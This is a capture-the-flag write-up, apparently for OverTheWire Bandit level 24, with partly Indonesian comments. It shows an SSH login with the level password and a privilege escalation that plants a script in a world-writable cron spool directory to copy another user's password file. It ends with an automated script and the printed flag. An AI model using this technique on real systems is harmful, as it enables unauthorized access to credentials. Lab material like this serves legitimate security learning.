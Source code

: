 ```yaml
---
layout: default
level: 24
name_file: level
---
```


{% include level-section.html %}

# soal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level! \
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# ssh
```bash
sshpass -p "0Zf11ioIjMVN551jX3CmStKLYqjk54Ga" ssh -o StrictHostKeyChecking=no bandit23@bandit.labs.overthewire.org -p 2220
```

# solve
## check cronjob file
```bash
cd /etc/cron.d
cat cronjob_bandit24
# @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
# * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

## check the file ````cat /usr/bin/cronjob_bandit24.sh```
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

# disini jika saya teliti di file ini akan pergi ke location folder tertentu dulu /var/spool/$myname/foo
# setelah itu dia akan melakuakn looping pada semua file di dalamnya
# dan akan mengekseskusinya dan setelah itu menghapusnya
```

## check the permissions
```bash
ls -lad /var/spool/bandit24/foo
# drwxrwx-wx 23 root bandit24 4096 Dec 10 09:52 /var/spool/bandit24/foo
ls -la /var/spool/bandit24/foo
# ls: cannot open directory '/var/spool/bandit24/foo': Permission denied

## kita tidak memiliki akses read pada folder namun kita memiliki akses write yang artinya
## kita bisa menaruh file di directory tersebut yang nantinya akan di eksekusi oleh cronjob
```

## try create file tmp for location pass
```bash
echo -e "\n[+] output ----------" # debug
workdir=$(mktemp -d)
cd $workdir
touch pass

ls -lad $workdir
# drwx------ 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
## disini bisa kita lihat bahwa tmp tersebut tidak bisa di write jadi kita perlu mengubah permissions nya juga

chmod -R 777 $workdir
ls -lad $workdir
# drwxrwxrwx 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
ls -la pass

echo -e "\n[+] output ----------" # debug
echo -e "[+] change the dir write for $(pwd)/pass" # debug
```

## try executable fro cat the pass
```bash
cd /var/spool/bandit24/foo
cat > cat_pass << EOF
#!/bin/bash

cat /etc/bandit_pass/bandit24 > # the path
EOF

ls -la cat_pass
chmod 777 cat_pass
cat $workdir/pass
```

## tunggu hingga file terhapus, dan pass terisi
```bash
ls -la cat_pass
# -rwxrwxrwx 1 bandit23 bandit23 81 Dec 10 10:17 cat_pass
cat $workdir/pass

ls -la cat_pass
# ls: cannot access 'cat_pass': No such file or directory
cat $workdir/pass
# gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

## jika masihh gagal kemungkinan kesalahan di permissions
## atau di location file
```

## get bandit 24
```bash
#!/bin/bash

echo -e "\n[+] Starting script to extract bandit24 password"

# Buat direktori kerja sementara
workdir=$(mktemp -d)
echo "[+] Temporary directory created: $workdir"

# Pindah ke direktori kerja
cd "$workdir" || exit 1
touch pass
chmod -R 777 "$workdir"
echo "[+] Directory permissions changed to writable"

# Periksa direktori kerja
ls -lad "$workdir"
ls -la pass
echo -e "[+] Temporary file created: $workdir/pass"

# Pindah ke direktori /var/spool/bandit24/foo
cd /var/spool/bandit24/foo || exit 1
echo "[+] Changed to directory: /var/spool/bandit24/foo"

# Buat skrip untuk membaca password
cat > cat_pass << EOF
#!/bin/bash

cat /etc/bandit_pass/bandit24 > $workdir/pass
EOF

# Berikan izin eksekusi
chmod 777 cat_pass
echo "[+] Script cat_pass created and permissions updated"

# Debugging informasi file
ls -la cat_pass

# Tunggu sampai skrip dieksekusi oleh sistem
echo "[+] Waiting for system to execute cat_pass and write password to $workdir/pass..."
while [ ! -s "$workdir/pass" ]; do
    sleep 1
done

# Tampilkan password
echo "[+] Password retrieved!"
cat "$workdir/pass"

# Bersihkan file sementara
rm -rf "$workdir"
echo "[+] Cleaned up temporary files"
```

# flag
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8